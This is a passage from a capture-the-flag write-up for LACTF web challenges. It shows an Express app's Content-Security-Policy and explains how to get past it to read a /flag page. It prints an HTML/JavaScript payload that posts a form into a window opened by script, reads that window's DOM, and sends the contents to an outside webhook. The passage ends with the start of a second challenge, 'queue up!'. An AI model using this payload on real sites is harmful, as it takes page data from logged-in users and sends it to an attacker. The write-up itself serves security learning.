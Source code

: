 ```javascript
app.use((req, res, next) => {
    res.set(
        "Content-Security-Policy",
        "default-src 'none'; script-src 'unsafe-inline'"
    );
    next();
});
```

What's interesting here is the CSP `default-src 'none'`. The CSP `default-src 'none'` will prevent us from accessing the `/flag` page so we cannot perform CSRF in the normal way.
> For reference csp default-src can be seen here [default-src](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/default-src)

### Exploit

I just finished this CTF when LACTF ended, I don't know how to do it, but after asking on the writeup channel I was given the following reference

> https://lalitjc.wordpress.com/2013/05/03/2/

I am also given an example as follows.

```html
<form method="post" id="theForm" action="/flag" target='a'>
</form>
<script> 
    let w = window.open('','a');
    document.getElementById('theForm').submit();
    setTimeout(()=>{
        document.location= 'http://webhook?'+w.document.body.innerHTML
    },500);
</script>
```

A little explanation of the payuload above. The above payload will generate a new window using `window.open` it will associate it with `target=a` in the `form` element, so when we submit the form using `document.getElementById('theForm').submit ();` it will be associated with the variable `w` and we will be able to access the DOM of the new page.

![](https://i.imgur.com/NTh8PTA.png)

After that we use the payload and don't forget to replace `document.location` to our webhook. We send the url of our payload, and we'll get the flag.

![](https://i.imgur.com/LNikobb.png)

# queue up! - web

## Description
I've put the flag on a web server, but due to high load, I've had to put a virtual queue in front of it. Just wait your turn patiently, ok? You'll get the flag eventually.
